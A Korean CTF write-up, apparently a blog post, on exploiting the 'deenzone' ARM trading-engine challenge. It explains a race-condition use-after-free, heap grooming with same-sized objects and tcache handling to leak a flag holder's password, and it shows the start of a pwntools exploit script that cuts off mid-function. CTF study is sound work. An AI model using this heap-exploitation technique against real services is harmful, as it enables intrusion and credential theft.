 deenzone 문제는 ARM 바이너리와 종속 라이브러리 빌드 스크립트가 주어졌다. QEMU로 환경 구축하기에는 제한사항이 많아 AWS의 ARM 인스턴스를 하나 사용하여 디버깅 환경을 구축하였다. 

deenzone 바이너리는 C++에 심볼이 strip 되어있어 리버싱이 굉장히 힘들었다. 그래서 팀 디코에서 다른 분들이 분석해준 IDB + 나중에 누군가 IDA Lumina 서버에 올려 놓은 deenzone 심볼을 다운받아 그제서야 편하게 오디팅을 진행할 수 있었다. 소스코드가 이미 github에 업로드 되어 있어 바이너리 분석은 패스한다. 

리버싱만 계속 하고 있던 중 @crit3ri4 선배가 `TradingEngine::execute` (Trade를 체결하는 함수)와 `TradingPlatform::listTrades` (최근 Trade를 나열하는 함수)가 동시에 일어날 때 메모리 릭이 일어난다는 것을 알아냈다. 그 원인을 분석해보니 `listTrades`와 `execute`는 서로 다른 thread에서 일어나는데, `listTrades`에서 Thread끼리 공유하고 있는 trade list의 trade들을 지역 vector에 포인터 복사하고 출력 전에 `execute`에서 최근 30개중 마지막 trade를 Free 시키면 UAF가 발생하는 것이었다. 

마침 `Trade` 객체의 사이즈(0xB0)와 `VipClientEntry` 객체의 사이즈(0xB0)가 동일했으며, `Trade` 객체에서 출력되는 문자열 필드(`m_ticker`)와 `VipClientEntry`의 패스워드 필드(`m_password`)의 위치가 동일했다. 이를 통해 세운 시나리오는 위의 Race Condition을 이용하여 execute에서 `Trade`가 Free될 때 `mcarlson`(Flag holder)을 VIP로 승급시킬 수 있는 Trade를 만들어 Free된 영역이 다시 할당되도록 해 `mcarlson`의 패스워드를 유출하는 것이었다. 

나는 해당 아이디어를 가지고 재현만 계속 시도했었는데, `pwndbg` 설정이 약간 부족하여 힙 관련 함수 없이 분석하다 보니 실패 원인을 추적하기 어려웠다. 그러던 중 갑자기 `gef`가 생각나서 설치해봣는데 `gef`는 별도의 설정 없이 자동으로 힙 관련 함수들을 사용할 수 있었다! (`gef` 짱짱)

시나리오가 제대로 작동하지 않던 원인은 tcache에 있었는데, tcache가 LIFO이며 최대 7개의 청크를 보관할 수 있다보니 execute에서 trade가 free된 청크가 tcache가 아닌 smallbin에 들어가고 VIP 승급 시 `VipClientEntry` 할당에는 tcache에서 chunk를 가져오고 있었다. 이를 해결하기 위해 취약점 트리거 직전에 다른 한명을 VIP로 승급시켜 의도적으로 tcache entry를 하나 비운 다음 익스 시나리오를 실행하였다. 

최종 익스 코드는 다음과 같다. (Credit @crit3ri4, @timmy)

{{< details "Exploit" >}}
* 익스가 여러 사람의 손을 타다보니 중구난방이다. 
```python
from pwn import *
import random

class CycliStr:
    def __init__(self) -> None:
        self.count = 0
    def __str__(self):
        buf = str(self.count)
        self.count += 1
        buf = buf.ljust(100, 'A')
        return buf
    def __add__(self, other):
        return str(self) + str(other)

randstr = str(CycliStr())
print(randstr)


r = remote('[REDACTED]', [REDACTED])
r.sendlineafter(':', '[REDACTED]')

def create(un, pw, rr):
    rr.sendlineafter('>', '1')
    rr.sendlineafter('>', un)
    rr.sendlineafter('>', pw)

def login(un, pw, rr):
    rr.sendlineafter('>', '2')
    rr.sendlineafter('>', un)
    rr.sendlineafter('>', pw)

def buy(ticker, amount, price, rr):
    rr.sendlineafter('>', '1')
    rr.sendlineafter('>', ticker)
    rr.sendlineafter('>', str(amount))
    rr.sendlineafter('>', str(price))

def sell(ticker, amount, price, rr):
    rr.sendlineafter('>', '2')
```

[^1]: https://boehs.org/node/everything-i-know-about-the-xz-backdoor
[^2]: 원래 그랬는지는 잘 모르겠다. 